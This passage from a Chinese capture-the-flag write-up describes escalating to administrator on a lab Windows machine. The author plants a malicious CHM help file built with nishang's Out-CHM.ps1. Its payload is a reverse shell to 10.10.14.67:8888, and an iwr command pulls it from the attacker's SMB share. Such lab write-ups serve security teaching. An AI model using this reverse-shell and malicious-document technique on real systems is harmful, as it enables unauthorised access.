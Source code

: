 ![](https://p4.ssl.qhimg.com/t01eb7a4043722217ff.png)

**- 成功获得普通用户权限，拿到`user flag`:**

![](https://p0.ssl.qhimg.com/t01197680466fc12bc6.png)

## 0x06 提权——超级用户

在利用`Chris`权限寻找有用信息的过程中，在`C:\Docs\`、`C:\Users\Chris\Downloads\`目录下发现`note.txt`、`instructions.chm`两个有意思的文件：

![](https://p1.ssl.qhimg.com/t01d4342a8a1364e108.png)

![](https://p1.ssl.qhimg.com/t018036c5c6b19d0135.png)

从`note.txt`的留言信息中可以推测，老板对Chris的工作很不满意，需要将某个说明文档放到`C:\Docs\`目录中。而`.chm`文件就是通过html文件编译形成的“帮助文档”，所以我推测`instructions.chm`应该就是老板口中需要放在`C:\Docs\`目录中的文档。但当我将`C:\Users\Chris\Downloads\`目录下的`instructions.chm`复制到`C:\Docs\`中时，发现一个奇怪的现象，`instructions.chm`会在短时间内奇怪的消失。

![](https://p1.ssl.qhimg.com/t01af1e4ef21c0f672f.png)

文档消失，或许是超级用户删除？让我感到这可能就是超级用户的漏洞点所在。为了利用这一疑点，首先需要构造一个恶意的`.chm`文件，包含需要执行的反向shell恶意代码，当超级用户对这个恶意文档有任何操作的时候，就能获取到超级用户的shell。

我在github上寻找如何构造恶意的`.chm`文件，在这里找到了可以借用的范本：https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1 。为了构造`.chm`恶意文件，还需要下载微软的[HTML HELP Workshop](https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138)。

这里我在本地计算机中使用`powershell`，构造了一个名为`doc.chm`的恶意文件，`Payload "C:\windows\system32\spool\drivers\color\2.exe -e powershell 10.10.14.67 8888"`：

![](https://p0.ssl.qhimg.com/t01d2b6096bb7125c05.png)

![](https://p1.ssl.qhimg.com/t01dd14e4b379cdc223.png)

随后将`doc.chm`放入kali的samba共享目录中：

![](https://p3.ssl.qhimg.com/t01ccde97607c96c3fd.png)

kali监听8888端口，用`Chris`的权限进入`C:\Docs\`，从Samba共享目录中将`doc.chm`复制到当前目录，并命名为`instructions.chm`：

```powershell
PS C:\Docs> iwr \\10.10.14.67/evil/doc.chm -outf .\instructions.chm
```

等待片刻，成功获取到超级用户的反向shell：

![](https://p0.ssl.qhimg.com/t014ab2831a0b14f4cb.png)

**- 成功获得超级用户权限，拿到` flag`:**

![](https://p1.ssl.qhimg.com/t01d8daafa316484acd.png)

## 0x07 总结

